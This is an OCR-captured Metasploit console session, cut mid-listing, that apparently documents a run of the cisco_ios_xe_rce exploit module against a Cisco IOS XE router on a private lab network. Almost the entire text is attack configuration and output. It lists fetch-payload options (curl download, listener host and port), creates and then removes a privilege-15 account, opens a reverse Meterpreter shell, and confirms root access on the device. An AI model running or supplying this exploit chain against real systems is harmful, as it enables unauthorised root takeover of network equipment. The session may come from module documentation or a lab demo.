 ```
   SSL                true             no        Negotiate SSL/TLS for outgoing connections
   VHOST                               no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      dDrTvTlqxwoK     no        Name to use on remote system when storing payload; cannot contain spaces.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               192.168.86.42    yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 17.03.02
[*] Created privilege 15 user 'sqVXixoV' with password 'ZiPbsXBu'
[*] Removing user 'sqVXixoV'
[*] Sending stage (3045380 bytes) to 192.168.86.58
[*] Meterpreter session 6 opened (192.168.86.42:4444 -> 192.168.86.58:64970) at 2023-11-06 17:01:06 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : router
OS           :  (Linux 4.19.106)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

